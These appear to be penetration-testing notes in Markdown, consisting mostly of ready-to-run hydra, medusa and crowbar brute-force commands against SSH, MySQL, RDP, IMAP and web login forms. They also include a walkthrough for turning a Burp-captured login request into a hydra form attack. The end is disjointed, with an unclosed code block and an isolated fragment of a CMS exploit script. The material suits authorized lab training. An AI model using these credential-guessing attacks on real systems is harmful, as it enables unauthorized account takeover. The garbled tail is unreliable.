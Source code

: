 ## Brute Force mysql:
--> Note: if you have too many connections, my sql will usually time you out!!!!

```
hydra -t 1 -L usernames.txt -P password.txt 192.168.151.11 mysql
```

## Brute Force ssh:

```
hydra -l root -p admin -s 22222 192.168.151.96 -t 4 ssh
```

## Brute force http protected dir

```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```

## Brute Force RDP, VNC, SSH

```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```

## Brute Force with user and password lists RDP:

```
sudo crowbar -b rdp -s 10.11.1.222/32 -U userlist.txt -C pass.txt
```

## SSH attack with Hydra

```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
```

## Http post attack

```
 hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```

## Http Authenticated Post Form Attack

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt example.com https-post-form "/login.php:username=^USER^&password=^PASS^&login=Login:Not allowed:H=Cookie\: PHPSESSID=if0kg4ss785kmov8bqlbusva3v"
```

## IMAP Brute Force

```
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V
```

## Http Attacks (great detail)

```
https://github.com/gnebbia/hydra_notes
```


## Set Hydra to Point at Burp:
- This can help use burp to figure out if Hydra is sending the correct request

```
# Add
export HYDRA_PROXY=connect://127.0.0.1:8080

# Remove

unset HYDRA_PROXY

```

## Use Hydra to brute force a form from Burp Suite:

- Grab the form you want from Burp here is an example:

```
POST /j_spring_security_check HTTP/1.1
Host: pennyworth.htb:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://pennyworth.htb:8080/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: http://pennyworth.htb:8080
Connection: close
Cookie: JSESSIONID.fe42cd9b=node01ws035f860g0jnuo80vq7lkyn1.node0
Upgrade-Insecure-Requests: 1

j_username=admin&j_password=admin&from=&Submit=Sign+in

```

- Reporduce In Hydra:

```
hydra -I -v -V -s 8080 -L ./user.txt -P pass.txt pennyworth.htb http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=Sign+in:H=User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv%3a109.0) Gecko/20100101 Firefox/119.0:H=Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;:H=Accept-Language: en-US,en;q=0.5:H=Accept-Encoding: gzip, deflate:H=Referer: http%3a//pennyworth.htb%3a8080/login:H=Origin: http%3a//pennyworth.htb%3a8080:H=Upgrade-Insecure-Requests: 1:H=Cookie: JSESSIONID.fe42cd9b=node01ws035f860g0jnuo80vq7lkyn1.node0:S=loginError"


## Parameters:

I: Ignore Prvious Jobs
v: verbose
V: show password guesses
s: Port Number
L: User list file
l: user 
P: Password list file
p: password
pennyworth.htb : webserver name
http[s]-post-form : http[s] form attack, basically grab this from burp as seen above

## Inside url string:
format: URL Location:request body:Optional stuffs:Conditional
"H=" Added header item, note you can do this with cookies as well
"S=" Success string, this string will be in header/body of response to indicate a successful login
"F=" Fail String, if you don't want to use a success string, then use this,  this will indicate a string in header or body of respone that will indicate a failed login.

## NOTES

- Try to Use One user name at a time if possible, if you use a username list then you might miss successful passwords
- 302 Redirect Issue, on some forms when you login you get a 302 redirect to the login page, hydra does not always view this as a successful login since it doesn't seem to read redirect html body, to get around this if you see something like  this in your results when verbose is enabled:
**[VERBOSE] Page redirected to http[s]://pennyworth.htb:8080/**
That means your page was redirected, which could indicate a successful login. The key here is that if you only get one or a few of these after a hydra brute force, you may have the login you need so make sure you check for this. In order to get the password though you might have to do some analysis. For me I set the "F=" fail string to "S=" the sucess string and found the password that wasn't reported as sucessful.
```

- ![](pics/20231101173832.png)
- CMS Made Simple version 2.2.8

- Search Sploit:

```
parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri (ex. http://10.10.10.100/cms)")
parser.add_option('-w', '--wordlist', action="store", dest="wordlist", help="Wordlist for crack admin password")
parser.add_option('-c', '--crack', action="store_true", dest="cracking", help="Crack password with wordlist", default=False)
```

G00d j0b, keep up!

